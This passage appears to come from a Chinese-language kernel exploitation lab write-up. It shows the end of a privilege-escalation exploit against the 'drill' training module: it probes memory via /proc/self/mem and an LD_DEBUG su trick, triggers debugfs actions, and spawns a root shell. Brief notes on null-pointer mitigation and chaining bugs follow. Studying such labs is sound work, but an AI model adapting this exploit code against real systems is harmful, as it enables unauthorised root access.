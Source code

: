        addr = (unsigned long)map;
        sprintf(cmd, "LD_DEBUG=help su 1>&%d", mem_fd);
        while (addr != 0) {
            addr -= 0x1000;

            if (lseek(mem_fd, addr, SEEK_SET) == -1) {
                perror("[-] lseek in /proc/self/mem");
                goto end;
            }

            system(cmd);
        }
        printf("[+] /proc/$PPID/maps:\n");
        system("head -n1 /proc/$PPID/maps");

        drill_fd = open("/sys/kernel/debug/drill/drill_act", O_WRONLY);
        // MDL: echo '1' > /sys/kernel/debug/drill/drill_act
        // MDL: echo '4' > /sys/kernel/debug/drill/drill_act
        act(drill_fd,49);
        act(drill_fd,52);
        init_payload((void *)NULL);

        // MDL: echo '2' > /sys/kernel/debug/drill/drill_act
        act(drill_fd,50);

        if (getuid() == 0 && geteuid() == 0) {
            printf("[+] finish as: uid=0, euid=0, start sh...\n");
            run_sh();
            ret = EXIT_SUCCESS;
        } else {
            printf("[-] didn't get root\n");
            goto end;
        }

        printf("[+] The End\n");

    end:
        if (drill_fd >= 0) {
            ret = close(drill_fd);
            if (ret != 0)
                perror("[-] close drill_fd");
        }

        if (mem_fd >= 0) {
            ret = close(mem_fd);
            if (ret != 0)
                perror("[-] close mem_fd");
        }

        return ret;
    }

#### 阻止措施

在使用一个指针前，判断它是否为空，如果为空，就不用。


## 启示

这两个实验给我们的启示还是很多的。

第一个启示是 在考虑kernel 漏洞提权时，不一定要盯死一个机制，kernel作为最复杂的系统，它提供了无数的机制给我们使用。我们完全可以通过机制的组合来达到提权目的

第二个启示是 一个漏洞有时候没有什么影响，但是配合另一个漏洞会产生巨大威力。

